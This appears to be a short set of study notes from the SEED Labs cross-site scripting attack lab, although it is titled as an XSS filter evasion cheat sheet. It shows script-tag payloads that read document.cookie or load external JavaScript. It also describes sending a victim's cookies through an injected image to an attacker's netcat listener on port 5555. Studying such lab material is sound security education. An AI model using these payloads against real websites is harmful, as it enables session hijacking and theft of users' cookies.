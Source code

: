 ```yaml
---
title: Cross Site Scripting Filter Evasion Cheat Sheet
# author: Grace JyL
date: 2020-09-19 11:11:11 -0400
description:
excerpt_separator:
categories: [CyberAttack, XSS]
tags: [CyberAttack, XSS, CheatSheet]
math: true
# pin: true
toc: true
# image: /assets/img/sample/devices-mockup.png
---
```


# Cross Site Scripting Filter Evasion Cheat Sheet

[toc]

---

# SEED Labs – Cross-Site Scripting Attack Lab

## Posting a Malicious Message to Display an Alert Window

```js
// short code
<script>alert(document.cookie);</script>


// long code
<script type="text/javascript"
        src="http://www.example.com/myscripts.js">
</script>
// store the JavaScript program in a standalone file
// save it with the .js extension
// refer to it using the src attribute in the <script> tag.
```

## stealing cookie

- the browser tries to load the image from the
URL in the `src` field
- an `HTTP GET request` sent to the attacker’s machine.
- in the mean time, it sends the cookies to the `port 5555` of the attacker’s machine
- the attacker has a TCP server listening to the same port.
    - `$ nc -l 5555 -v`
- The server can print out whatever it receives.
